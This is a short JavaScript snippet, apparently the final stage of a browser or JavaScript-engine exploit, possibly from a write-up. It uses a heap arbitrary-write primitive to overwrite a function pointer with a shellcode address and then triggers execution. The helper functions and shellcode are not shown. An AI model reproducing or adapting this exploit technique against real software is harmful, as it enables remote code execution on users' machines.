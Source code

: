 ```js
console.log(`shellcode at 0x${shellcodeAddr.toString(16)}`);

heapArbWrite(exploitCodeAddr + 0x14n, shellcodeAddr);

console.log("Wrote exploit");

exploit();

console.log("Shouldn't get here");
```
